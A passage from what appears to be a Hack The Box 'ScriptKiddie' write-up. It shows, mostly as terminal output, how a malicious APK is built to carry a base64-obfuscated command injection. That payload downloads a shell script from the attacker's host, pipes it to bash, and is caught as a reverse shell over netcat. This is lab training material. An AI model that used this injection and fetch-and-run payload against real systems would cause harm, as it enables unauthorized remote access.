 The malicious apk file was generated and the second stage payload was hosted using python http server:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ python3 49491.py
[+] Manufacturing evil apkfile
Payload: wget -O - 10.10.14.14/revshell.sh | bash
-dname: CN='|echo d2dldCAtTyAtIDEwLjEwLjE0LjE0L3JldnNoZWxsLnNoIHwgYmFzaA== | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmps70hg8mz/evil.apk
Do: msfvenom -x /tmp/tmps70hg8mz/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Uploaded the malicious apk to the application and obtained a reverse shell:
![Pasted image 20210421132429.png]({{page.screenshots}}Pasted image 20210421132429.png)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo nc -nlvp 443                                                        
[sudo] password for kali:
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 56612
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$ hostname
hostname
scriptkiddie
kid@scriptkiddie:~/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ ^Z
zsh: suspended  sudo nc -nlvp 443

┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ stty raw -echo; fg
[1]  + continued  sudo nc -nlvp 443

kid@scriptkiddie:~/html$ export TERM=xterm
kid@scriptkiddie:~/html$ stty rows 60 columns 235
```
